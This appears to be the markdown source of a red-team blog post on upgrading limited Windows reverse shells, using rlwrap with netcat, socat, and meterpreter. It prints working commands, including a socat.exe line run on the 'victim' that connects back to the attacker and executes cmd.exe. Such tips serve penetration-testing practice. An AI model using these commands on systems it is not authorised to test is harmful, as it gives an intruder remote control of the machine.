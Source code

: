 ```yaml
---
description: >-
  How to upgrade a Windows reverse shell to a fully usable TTY-type shell
title: Upgrade a Windows reverse shell to a fully usable shell                    # Add title of the machine here
date: 2021-05-01 08:00:00 -0600                           # Change the date to match completion date
categories: [Tips & Tricks]                     # Categories
tags: [hacking, redteam, tips-n-tricks, windows, socat, meterpreter]     # TAG names should always be lowercase; add relevant tags
show_image_post: true                                    # Change this to true
#image: /assets/img/                # Add image here for post preview image
---
```


![Hack responsibly disclaimer](/assets/markups/1-hack-responsibly.svg)

## Upgrading remote shells (Windows machines)

In a [previous article](https://zweilosec.github.io/posts/upgrade-linux-shell/) I wrote about upgrading limited Linux shells to a fully usable TTY shell.  Usually, after catching a reverse shell from a Windows machine through netcat you already have a shell that has full functionality. However, on occasion your shell is limited in some ways that can be truly annoying.  The features I miss the most are command history (and using the 'up' and 'down' arrows to cycle through them) and tab autocompletion.  It can feel quite disorienting working in a shell that is missing these vital features.
 
Options for upgrading Windows reverse shells are more limited than they are coming from a Linux machine.  

## rlwrap

You can mitigate some of the restrictions of poor netcat shells by wrapping the netcat listener with the `rlwrap` command.  This is not installed in Kali Linux by default so you will need to install it using the command `sudo apt install rlwrap -y`.  Other distributions may or may not have this installed or available in their package manager.

```bash
rlwrap nc -lvnp $port
```

Start your netcat listener by first prefixing it with the `rlwrap` command, then specifying the port to listen on.  Your shell will automatically be a bit more stable than running netcat by itself.

## socat 

Another powerful tool that can be used to get functional shells, do port forwarding, and much more is [`socat`](http://www.dest-unreach.org/socat/).  (Windows version: [https://github.com/3ndG4me/socat](https://github.com/3ndG4me/socat))

1. From your attack platform create a listener

```bash
socat TCP4-LISTEN:$port,fork STDOUT
```

2. Upload to or compile `socat.exe` on the Windows victim machine.

3. On the Windows victim create the reverse shell back to your waiting listener.

```bash
socat.exe TCP4:$ip:$port EXEC:'cmd.exe',pipes
```

## meterpreter

Another method of upgrading the functionality of a Windows reverse shell that I know is to create a reverse shell payload that calls a `meterpreter` interactive shell.  This shell interacts with the Metasploit Framework to provide additional functionality such as uploading and downloading files, attempting to elevate privileges to System, and more.

## Other Examples

If you have any other examples of methods of upgrading Windows reverse shells, or have any other fun or useful tips or tricks, feel free to contact me on Github at [https://github.com/zweilosec](https://github.com/zweilosec) or on social media!

If you like this content and would like to see more, please consider buying me a coffee! <a href="https://www.buymeacoffee.com/zweilosec"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me a coffee&emoji=&slug=zweilosec&button_colour=FFDD00&font_colour=000000&font_family=Lato&outline_colour=000000&coffee_colour=ffffff"></a>
